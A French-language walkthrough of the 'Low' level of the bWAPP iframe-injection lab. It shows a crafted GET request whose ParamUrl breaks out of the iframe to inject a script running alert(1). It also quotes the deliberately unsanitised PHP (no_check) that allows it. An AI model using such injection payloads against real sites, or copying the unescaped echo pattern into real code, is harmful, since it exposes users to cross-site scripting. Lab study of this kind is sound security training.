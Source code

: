 # Niveau "Low"

## Exploitation

La page du challenge permet de charger une `<iframe></iframe>`. L'URL admet 3 paramètres :&#x20;

* le premier, `ParamURL`, est l'URL cible de l'iframe, ayant comme valeur par défaut "robots.txt"
* le second et la troisième, `ParamWidth` et `ParamHeight`, sont la taille en largeur et en hauteur de l'iframe, ayant comme valeur par défaut "250"

![](<../../../../../.gitbook/assets/image (8).png>)

Avant de tenter de contourner l'iframe (via ses attributs) afin d'injecter du code Javascript, il est possible d'analyser l'assainissement des paramètres d'entrée. Est ce que l'application assainie correctement les caractères tels que `"`, `'` ou encore `<` et `>` :&#x20;

```http
GET /bWAPP/iframei.php?ParamUrl=robots.txt%22%3E%3C/iframe%3E%3Cscript%3Ealert(1)%3C/script%3E%3Ciframe%20src=%22&ParamWidth=250&ParamHeight=250 HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: security_level=0; PHPSESSID=94d5a1179643bdb8e87d3d0039b6cac5
Connection: close
```

![](<../../../../../.gitbook/assets/image (33).png>)

L'injection est donc ici réussi facilement.&#x20;

## Analyse du code source

L'application récupère les variables et affiche le retour de la méthode `xss()` en tant que valeur des attributs HTML de l'iframe (le niveau de sécurité est ici 0 pour le niveau "Low" exécutant le code situé dans le `else`) :&#x20;

{% code title="iframei.php" %}
```php
<?php
  if($_COOKIE["security_level"] == "1" || $_COOKIE["security_level"] == "2") {
?>
    <iframe frameborder="0" src="robots.txt" height="<?php echo xss($_GET["ParamHeight"])?>" width="<?php echo xss($_GET["ParamWidth"])?>"></iframe>
<?php
  }
  else {
?>
    <iframe frameborder="0" src="<?php echo xss($_GET["ParamUrl"])?>" height="<?php echo xss($_GET["ParamHeight"])?>" width="<?php echo xss($_GET["ParamWidth"])?>"></iframe>
<?php
  }
?>
```
{% endcode %}

La méthode `xss()` est un `switch` exécutant une certaine méthode selon le niveau de sécurité actuel : &#x20;

{% code title="iframei.php" %}
```php
function xss($data) {
  switch($_COOKIE["security_level"]) {
    case "0" :
      $data = no_check($data);      
      break;
    case "1" :
      $data = xss_check_4($data);
      break;
    case "2" :
      $data = xss_check_3($data);
      break;
    default :
      $data = no_check($data);
      break;   
  }

  return $data;
}
```
{% endcode %}

Dans le cas du niveau "Low", la méthode `no_check()` est exécutée, mais comme son nom l'indique, elle ne fais aucun assainissement et retourne seulement le paramètre passée en paramètre :&#x20;

{% code title="functions_external.php" %}
```php
function no_check($data) {
  return $data;
}
```
{% endcode %}
